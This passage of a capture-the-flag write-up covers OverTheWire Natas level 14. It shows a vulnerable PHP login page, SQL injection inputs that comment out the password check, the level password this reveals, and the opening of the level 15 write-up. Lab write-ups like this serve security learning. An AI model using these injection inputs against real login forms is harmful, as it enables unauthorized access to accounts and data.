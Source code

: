 ```html
    if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysqli_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
<?php } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Try `natas15" --` and no password:

Error:

> Warning: mysqli_num_rows() expects parameter 1 to be mysqli_result, bool given in /var/www/natas/natas14/index.php on line 24

Looking better at the code, we need to comment out the PHP code, not the SQL query: try `natas15" #`.
This works:

> Successful login! The password for natas15 is SdqIqBsFcz3yotlNYErZSZwblkm0lrvx

## Natas 15

### Credentials

Username: natas15

Password: SdqIqBsFcz3yotlNYErZSZwblkm0lrvx

URL: http://natas15.natas.labs.overthewire.org

### Message

Username: ...

Check existence

### Solution

Source code (link):
